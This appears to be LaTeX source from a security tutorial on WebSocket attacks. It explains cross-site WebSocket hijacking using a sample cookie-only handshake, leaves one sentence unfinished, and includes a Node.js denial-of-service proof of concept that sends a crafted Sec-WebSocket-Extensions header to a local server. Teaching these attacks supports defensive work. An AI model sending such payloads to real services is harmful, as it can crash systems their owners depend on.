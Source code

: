 Since a cross-site WebSocket hijacking attack is essentially a CSRF vulnerability on a WebSocket handshake, the first step to performing an attack is to review the WebSocket handshakes that the application carries out and determine whether they are protected against CSRF.

In terms of the normal conditions for CSRF attacks, you typically need to find a handshake message that relies solely on HTTP cookies for session handling and doesn't employ any tokens or other unpredictable values in request parameters.
For example, the following WebSocket handshake request is probably vulnerable to CSRF, because the only session token is transmitted in a cookie


\begin{lstlisting}[numbers=none]
	GET /chat HTTP/1.1
	Host: normal-website.com
	Sec-WebSocket-Version: 13
	Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w==
	Connection: keep-alive, Upgrade
	Cookie: session=KOsEJNuflw4Rd9BDNrVmvwBF9rEijeE2
	Upgrade: websocket
\end{lstlisting}

\begin{fullwidth} %
The Sec-WebSocket-Key header contains a random value to prevent errors from caching proxies, and is not used for authentication or session handling purposes.
If the WebSocket handshake request is vulnerable to CSRF, then an attacker's web page can perform a cross-site request to open a WebSocket on the vulnerable site. What happens next in the attack depends entirely on the application's logic and how it is using WebSockets. The attack might involve:
\end{fullwidth}

\section{WebSocket Denial of Service Test}

\begin{lstlisting}[numbers=none]
	const WebSocket = require('ws');
	const net = require('net');
	const wss = new WebSocket.Server({ port: 3000 }, function () {
	  const payload = 'constructor';  // or ',;constructor'
	const request = [
		'GET / HTTP/1.1',
		'Connection: Upgrade',
		'Sec-WebSocket-Key: test',
		'Sec-WebSocket-Version: 8',
		`Sec-WebSocket-Extensions: ${payload}`,
		'Upgrade: websocket',
		'\r\n'
	  ].join('\r\n');
	const socket = net.connect(3000, function () {
		socket.resume();
		socket.write(request);
	  });
	});  
\end{lstlisting}

